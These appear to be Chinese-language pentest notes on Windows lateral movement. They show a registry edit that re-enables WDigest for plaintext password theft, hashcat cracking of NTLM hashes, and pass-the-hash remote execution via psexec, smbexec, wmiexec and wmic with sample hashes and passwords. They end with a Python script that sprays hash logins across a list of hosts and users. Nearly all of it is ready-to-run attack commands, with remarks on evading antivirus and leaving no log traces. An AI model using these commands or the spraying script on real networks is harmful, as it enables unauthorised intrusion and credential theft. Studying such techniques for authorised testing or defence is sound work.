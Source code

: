 

> #知识点1
>
> Win2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码
>
> Windows2012以下版本如安装KB2871997补丁,同样也会导致无法获取明文密码,针对以上情况,提供了4中方式解决此类问题
>
> 1.利用哈希hash传递(pth,ptk等)进行移动
>
> 2.利用其它服务协议(SMB,WMI等)进行哈希移动
>
> 3.利用注册表操作开启Wdigest Auth值进行获取
>
> 4.利用工具或第三方平台(Hachcat)进行破解获取
>
> \#知识点2：
>
> Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。
>
> \#注册表修改
>
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
>
> 
>
> hashcat -a 0 -m 1000 hash file --force //爆破哈希的软件
>
> 

![img]([横向渗透]SMB服务&WMI服务/2265061-20210318094825092-1914620745.png)

## SMB服务利用-psexec&smbexec

```powershell
SMB服务可以通过明文或hash传递来远程执行,条件445端口开放 
//需要下载官方工具pstool,进入pstool目录
#psexec第一种：先有ipc链接，psexec需要明文或hash传递

net use \\192.168.10.3\ipc$ "123.com" /user:administrator

psexec \\192.168.10.1 -s cmd # 需要先有ipc链接 -s以System权限运行
```

## ![image-20210410130707085]([横向渗透]psexec&smbexec/image-20210410130707085.png)

拒绝访问,以管理员权限执行cmd

![image-20210410130807321]([横向渗透]psexec&smbexec/image-20210410130807321.png)

```powershell
#psexec第二种：不用建立IPC直接提供明文账户密码

psexec \\192.168.10.3 -u administrator -p 123.COM -s cmd 

psexec -hashes :$HASH$ ./administrator@192.168.10.3

psexec -hashes :$HASH$ domain/administrator@192.168.10.3

psexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.10.3 //官方Pstools无法采用hash连接,需要借助impacket,操作简单,但是容易被杀
```

![image-20210410131957504]([横向渗透]psexec&smbexec/image-20210410131957504.png)

```powershell
#smbexec无需先ipc链接 明文或hash传递

smbexec yu/administrator:uio123,.@192.168.10.3

smbexec ./administrator:123.com@192.168.10.3

smbexec -hashes :$HASH$ ./admin@192.168.10.3

smbbexec -hashes :$HASH$ domain/admin@192.168.10.3

smbexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.10.3

smbexec -hashes :ccef208c6485269c20db2cad21734fe7 yu/administrator@192.168.10.1
```

![image-20210410132338949]([横向渗透]psexec&smbexec/image-20210410132338949.png)

## WMI服务利用-cscript,wmiexec,wmic

```php
WMI(Windows Management Instrumentation) 是通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

#自带命令WMIC 明文传递 无回显
    wmic /node:192.168.10.3 /user:win7\administrator /password:123.com process call create "cmd.exe /c  ipconfig >C:\1.txt"

#自带cscript明文传递 有回显

cscript //Nologo wmiexec.vbs /shell 192.168.10.3 win7\administrator 123.COM

#套件impacket wmiexec 明文或hash传递 有回显exe版本

wmiexec ./administrator:123.com@192.168.10.3 "whoami"
yu
wmiexec yu/administrator:uio123,.@192.168.10.3 "whoami"

wmiexec -hashes :afffeba176210fad4628f0524bfe1942 ./administrator@192.168.3.32 "whoami"

wmiexec -hashes :afffeba176210fad4628f0524bfe1942 yu/administrator@192.168.10.3 "whoami"
```

![image-20210410154523174]([横向渗透]psexec&smbexec/image-20210410154523174.png)

![image-20210410154449949]([横向渗透]psexec&smbexec/image-20210410154449949.png)

执行成功,注意这个命令是无回显的,并且普通用户权限就行。

第二种可以直接获得一个shell,但是需要下载[wmiexec.vbs](https://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)文件,这里我把他当到了tom文件夹下

![image-20210410155532865]([横向渗透]psexec&smbexec/image-20210410155532865.png)

## 批量打

```python
#pyinstaller.exe -F fuck_neiwang_002.py

import os,time

ips={

'192.168.3.21',

'192.168.3.25',

'192.168.3.29',

'192.168.3.30',

'192.168.3.32'

}

users={

'Administrator',

'boss',

'dbadmin',

'fileadmin',

'mack',

'mary',

'webadmin'

}

hashs={

'ccef208c6485269c20db2cad21734fe7',

'518b98ad4178a53695dc997aa02d455c'

}

 

for ip in ips:

for user in users:

for mimahash in hashs:

\#wmiexec -hashes :hash god/user@ip whoami

exec = "wmiexec -hashes :"+mimahash+" god/"+user+"@"+ip+" whoami"

print('--->' + exec + '<---')

os.system(exec)

time.sleep(0.5)
```



